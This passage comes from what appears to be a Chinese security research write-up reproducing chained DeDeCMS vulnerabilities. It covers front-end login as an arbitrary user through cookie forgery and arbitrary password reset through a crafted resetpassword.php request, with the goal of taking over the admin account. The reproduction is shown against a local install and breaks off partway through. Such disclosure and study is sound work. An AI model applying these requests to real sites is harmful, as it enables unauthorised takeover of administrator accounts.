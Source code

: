 在DeDeCMS的设计中，admin被设置为不可从前台登陆，但是当后台登陆admin账户的时候，前台同样会登陆管理员账户。

而且在前台的修改密码接口，如果提供了旧密码，admin同样可以修改密码，并且这里修改密码会同步给后台账户。

通过3个漏洞配合，我们可以避开整个漏洞利用下的大部分问题。

前台任意用户密码修改漏洞->修改admin密码，前台任意用户登录漏洞->登陆admin账户，通过刚才修改的admin密码，来重置admin账户密码。

# 0x03 漏洞复现

## 1、 登陆admin前台账户

安装DeDeCMS
![image.png-204.3kB][2]

注册用户名为000001的账户

![image.png-87.2kB][3]

由于是本地复现漏洞，所以我们直接从数据库中修改为审核通过
![image.png-58.8kB][4]

访问
```
http://your_website/member/index.php?uid=0000001
```

![image.png-375.6kB][5]

获取cookie中`last_vid_ckMd5`值，设置

```
DeDeUserID_ckMd5为刚才获取的值，并设置DedeUserID为0000001
访问
http://your_website/member/
```
![image.png-295.3kB][6]

## 2、修改admin前台登陆密码

使用DeDeCMS前台任意用户密码修改漏洞修改admin前台密码。
构造漏洞利用请求

```
http://yourwebsite/member/resetpassword.php

dopost=safequestion&safequestion=0.0&safeanswer=&id=1
```
![image.png-62kB][7]

从Burp获取下一步利用链接
```
/member/resetpassword.php?dopost=getpasswd&id=1&key=nlszc9Kn
```
![image.png-242.2kB][8]


  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/fhs5a1xzcs9wlmo79dz1fa7t/image.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/35x2i03cf1o6dx5zinorhxkg/image.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/i5cw04ts7pwt2knzqdvwsxa9/image.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/cvx4w4vakv5zawbqbn5blw9a/image.png
  [5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/baigsn6cfc45rqqdp2ij002z/image.png
  [6]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/m6cdhwm8x5fru0ghzteugskb/image.png
  [7]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/r3vnslnl4xvhgceu63fx2ams/image.png
  [8]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ed4f7dpso9ibg5ppwgct82m5/image.png
  [9]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/3hc7ji53z9l39rckak3ezqsu/image.png
  [10]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/y61j1o170sf6nwmwkn4gop45/image.png
  [11]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/z0vs7wayrvpcwctxbtc0szau/image.png
  [12]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/r4505g75o8jkyp8gn9iutgx4/image.png
  [13]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/c0nkya1tqtl2huoc4hhj0el9/image.png
  [14]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/fc0z0lfq4jdnk0td1abbhdyk/image.png
  [15]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/mmf74nzg4idqncfcku6iqny3/image.png
  [16]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/vnj84gtz8bdknys5m7fa290x/image.png
  [17]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/zvoi03jzfdaaml0dfoqhnlq0/image.png
  [18]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/465zcukntsl4x56x6y0fzlzx/image.png
  [19]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/e9c2lkab7t9j2g9lblrsk9be/image.png
  [20]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/7egs2kovzmftad0551ny60ez/image.png
  [21]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/2mql17fthqbkiu6z8scjwgai/image.png
  [22]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/2dj52izgb34tpgvhu6s9p8cv/image.png